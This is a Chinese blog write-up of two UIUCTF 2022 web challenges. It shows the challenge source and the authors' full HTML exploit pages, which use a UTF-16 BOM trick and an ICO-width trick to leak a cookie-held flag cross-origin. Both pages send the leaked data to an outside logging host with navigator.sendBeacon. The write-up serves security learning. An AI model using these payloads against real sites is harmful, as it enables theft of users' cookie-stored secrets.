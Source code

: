 ```yaml
---
title: uiuctf-2022-writeup
catalog: true
date: 2022-08-01 20:31:10
tags: [Security]
categories: [Security]
---
```


<img src="/img/uiuctf-ctf-2022-writeup/cover.png" style="display:none">

其實沒有參加這一次的 CTF，但有稍微看到兩題跟 content type 有關的題目覺得有趣，來記一下解法。

<!-- more -->

## modernism(21 solves)

程式碼超簡單：

``` py
from flask import Flask, Response, request
app = Flask(__name__)

@app.route('/')
def index():
    prefix = bytes.fromhex(request.args.get("p", default="", type=str))
    flag = request.cookies.get("FLAG", default="uiuctf{FAKEFLAG}").encode() #^uiuctf{[A-Za-z]+}$
    return Response(prefix+flag, mimetype="text/plain")
```

會把你送去的資料 hex decode 以後加在 response 的 flag 前面，就這樣。有一個 admin bot 會帶著 flag 在 cookie 去造訪你的頁面。

這題我原本想說 `text/plain` 不能被當作 script 載入，就算沒有加 `X-Content-Type-Options: nosniff` 也一樣，後來發現我記錯了，其實是可以的。

相關程式碼在 [third_party/blink/renderer/platform/loader/allowed_by_nosniff.cc](https://source.chromium.org/chromium/chromium/src/+/refs/tags/106.0.5211.0:third_party/blink/renderer/platform/loader/allowed_by_nosniff.cc;l=79;bpv=0;bpt=1)

``` c
// Helper function to decide what to do with with a given mime type. This takes
// - a mime type
// - inputs that affect the decision (is_same_origin, mime_type_check_mode).
//
// The return value determines whether this mime should be allowed or blocked.
// Additionally, warn returns whether we should log a console warning about
// expected future blocking of this resource. 'counter' determines which
// Use counter should be used to count this. 'is_worker_global_scope' is used
// for choosing 'counter' value.
bool AllowMimeTypeAsScript(const String& mime_type,
                           bool same_origin,
                           AllowedByNosniff::MimeTypeCheck mime_type_check_mode,
                           WebFeature& counter) {
  using MimeTypeCheck = AllowedByNosniff::MimeTypeCheck;

  // If strict mime type checking for workers is enabled, we'll treat all
  // "lax" for worker cases as strict.
  if (mime_type_check_mode == MimeTypeCheck::kLaxForWorker &&
      RuntimeEnabledFeatures::StrictMimeTypesForWorkersEnabled()) {
    mime_type_check_mode = MimeTypeCheck::kStrict;
  }

  // The common case: A proper JavaScript MIME type
  if (MIMETypeRegistry::IsSupportedJavaScriptMIMEType(mime_type))
    return true;

  // Check for certain non-executable MIME types.
  // See:
  // https://fetch.spec.whatwg.org/#should-response-to-request-be-blocked-due-to-mime-type?
  if (mime_type.StartsWithIgnoringASCIICase("image/")) {
    counter = WebFeature::kBlockedSniffingImageToScript;
    return false;
  }
  if (mime_type.StartsWithIgnoringASCIICase("audio/")) {
    counter = WebFeature::kBlockedSniffingAudioToScript;
    return false;
  }
  if (mime_type.StartsWithIgnoringASCIICase("video/")) {
    counter = WebFeature::kBlockedSniffingVideoToScript;
    return false;
  }
  if (mime_type.StartsWithIgnoringASCIICase("text/csv")) {
    counter = WebFeature::kBlockedSniffingCSVToScript;
    return false;
  }

  if (mime_type_check_mode == MimeTypeCheck::kStrict) {
    return false;
  }
  DCHECK(mime_type_check_mode == MimeTypeCheck::kLaxForWorker ||
         mime_type_check_mode == MimeTypeCheck::kLaxForElement);

  // Beyond this point we handle legacy MIME types, where it depends whether
  // we still wish to accept them (or log them using UseCounter, or add a
  // deprecation warning to the console).

  if (EqualIgnoringASCIICase(mime_type, "text/javascript1.6") ||
      EqualIgnoringASCIICase(mime_type, "text/javascript1.7")) {
    // We've been excluding these legacy values from UseCounter stats since
    // before.
    return true;
  }

  if (mime_type.StartsWithIgnoringASCIICase("application/octet-stream")) {
    counter = kApplicationOctetStreamFeatures[same_origin];
  } else if (mime_type.StartsWithIgnoringASCIICase("application/xml")) {
    counter = kApplicationXmlFeatures[same_origin];
  } else if (mime_type.StartsWithIgnoringASCIICase("text/html")) {
    counter = kTextHtmlFeatures[same_origin];
  } else if (mime_type.StartsWithIgnoringASCIICase("text/plain")) {
    counter = kTextPlainFeatures[same_origin];
  } else if (mime_type.StartsWithIgnoringCase("text/xml")) {
    counter = kTextXmlFeatures[same_origin];
  } else if (mime_type.StartsWithIgnoringCase("text/json") ||
             mime_type.StartsWithIgnoringCase("application/json")) {
    counter = kJsonFeatures[same_origin];
  } else {
    counter = kUnknownFeatures[same_origin];
  }

  return true;
}
```

可是就算可以被當作是 script 引入，也沒辦法輕易弄成可以執行的語法，因為 flag 中有 `{}`。

非預期解是利用 class，前面加上 class 就變成 `class uiuctf{fakeflag}`，有了這個之後你只要 `uiuctf+''` 就可以得到當初宣告 class 時的那一整串東西，就拿到 flag 了。

預期解是前面加上 BOM，讓 JS 把整個腳本用 UTF-16 去解讀，就會把原本那一串 flag 變成奇怪的中文字，就不會壞了，前面則可以加上 `++window.`，之後去看 window 的每個屬性就好。

作者的[解法](https://codesandbox.io/s/modernism-sol-05tjvc?file=/index.html:0-1544)如下：

``` html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <meta http-equiv="X-UA-Compatible" content="ie=edge" />
    <title>Static Template</title>
  </head>
  <body>
    <!--
      we use a BOM (byte order mark) to change the encoding
      of the document and cause it to be interpreted as valid JS

      BOM = magic unicode character at start of document 
        to indicate encoding and endianness

      chrome supports the UTF16-BE and UTF16-LE BOMs:
      FE FF and FF FE

      we then encode: ++window. as UTF16-BE
      2B2B7769006E0064006F0077002E

      so the JS executed is:
      ++window.RANDOM_UNICODE_CHARACTERS
      
      - luckily, when decoding the flag format as UTF-16 BE, 
        the resultant characters will always be a valid JS identifier
        - this is NOT true in precisionism, due to the space and ! characters in the suffix

      Finally, we iterate through the `window` object,
      and utf16-be encode the added property to get the flag
    -->
    <script src="https://modernism-web.chal.uiuc.tf/?p=FEFF002B002B00770069006E0064006F0077002E"></script>
    <script>
      const encutf16=(s)=>[...s].flatMap(c=>[String.fromCharCode(c.charCodeAt(0)>>8),String.fromCharCode(c.charCodeAt(0)&0xff)]).join('');
      const flag = Object.getOwnPropertyNames(window).map(x=>encutf16(x)).find(x=>x.startsWith('uiuctf{'));
      navigator.sendBeacon("//hc.lc/log2.php?modernism",flag);
    </script>
  </body>
</html>
```


## precisionism(3 solves)

這題跟上題很像，只是結尾多加了一些東西：

``` py
from flask import Flask, Response, request
app = Flask(__name__)

@app.route('/')
def index():
    prefix = bytes.fromhex(request.args.get("p", default="", type=str))
    flag = request.cookies.get("FLAG", default="uiuctf{FAKEFLAG}").encode() #^uiuctf{[0-9A-Za-z]{8}}$
    return Response(prefix+flag+b"Enjoy your flag!", mimetype="text/plain")
```

因為多加的那些東西，所以前面那兩招都不能用。

這題的預期解是把 response 弄成 ICO 格式，然後把要 leak 的部分放到 width 去，就可以 cross origin 拿圖片寬度，一個 byte 一個 byte 拿出來：

作者[解法](https://codesandbox.io/s/precisionism-sol-17tev5?file=/index.html:0-1039)：

``` html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <meta http-equiv="X-UA-Compatible" content="ie=edge" />
    <title>Static Template</title>
  </head>
  <body>
    <h1>
      This is a static template, there is no bundler or bundling involved!
    </h1>
    <script>
      const sleep = () => new Promise((res) => setTimeout(res, 50));
      async function exfil(i) {
        let img = new Image();
        let p = "00000100020001010000010020006804000026000000";
        if (i>0) p = p.slice(0, -i*2);
        img.src = `https://precisionism-web.chal.uiuc.tf/?p=${p}`;
        await img.decode();
        return img.width;
      }
      async function main() {
        for (let i = 0; i < 16; i++) {
          let c = await exfil(i);
          console.log(String.fromCharCode(c));
          navigator.sendBeacon("//hc.lc/log2.php?precisionism",String.fromCharCode(c)+" "+c)
        }
      }
      main();
    </script>
  </body>
</html>
```

## 總結

話說我還有特別研究了一下 chromium 怎麼做 mime sniffing，不過這次題目跟這個好像沒太大關係，還是筆記一下位置：https://source.chromium.org/chromium/chromium/src/+/master:net/base/mime_sniffer.cc